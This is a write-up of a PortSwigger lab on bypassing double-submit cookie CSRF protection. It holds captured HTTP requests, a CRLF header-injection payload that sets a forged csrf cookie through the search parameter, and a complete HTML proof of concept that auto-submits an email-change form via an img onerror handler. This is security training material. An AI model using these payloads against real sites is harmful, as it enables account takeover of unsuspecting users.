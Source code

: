 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5e3c5679-cfe8-4604-88d1-27aff3ccef53)


## Overview :

Sites also commonly use a **double-submit cookie as a defense against CSRF**. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and  the server checks whether the two values are equal. If the values match, the request is seen as legitimate. Otherwise, the application rejects.

If the application uses double-submit cookies as its CSRF defense mechanism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need  to use double-submit cookies in the first place. 

The **server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same**. 

_Bypass this restriction by providing same non legitimate token in both request & body -_

```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```


## Solution :

When we login as wiener using the credentials `wiener:peter` , we can see that there is an option to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/81496866-9b48-4acd-b45e-cdf53f282194)


When we click _update email_ , browser sends a POST request to `/my-account/change-email` endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
```
We can see that there is a **double submit of csrf token** in the cookie and request parameter. 

**This means that the server is not storing csrf tokens on server side instead it is just comparing whether both the tokens are same . If yes then it accepts the request else it rejects.**

So to bypass this , we can give any random token of the same length (the server might be checking the length of the token also) both in cookie and in request parameter.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=anytoken
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=pwned%40user.net&csrf=anytoken
```

But we can't directly change the value of csrfkey cookie & send the request, it won't work.

To change the csrfkey value we need to perform **Host Header Injection** to inject the csrfkey cookie into the victim browser whne he clicks on the link which we create.

#### Injecting csrfkey cookie value -

We need to find any functionality that takes user input. In this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - `Set-Cookie: LastSearchTerm=hello`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15699775-2df8-4922-8c3c-c47762559c15)


So with this we can try to inject the csrf cookie value.

Use this payload query in the search parameter of the request - `/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None` which decodes to `/?search=test Set-Cookie: csrf=anytoken; SameSite=None`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb314731-0f4c-4d08-8c49-92fc79031406)

From the response we can confirm that we can inject the csrf cookie value by HTTP header injection.

#### Generate csrf POC -

```http
POST /my-account/change-email HTTP/2
Host: 0aa7009804198f7480e676da00a90003.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; LastSearchTerm=hello; csrf=rDAgotYXNjVLeo1Ku6YLvJYzxwVhRL3Y
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0aa7009804198f7480e676da00a90003.web-security-academy.net
Referer: https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net&csrf=anytoken
```

Send this request to CSRF POC generator. 

> Note that we have only changed the csrf token parameter value to **anytoken**. The csrf cookie value is still the same. It has to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as anytoken . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

**Final POC** -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

Deliver the exploit to victim & solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f1ecc800-19d5-4d98-bd6f-e8a45b399223)








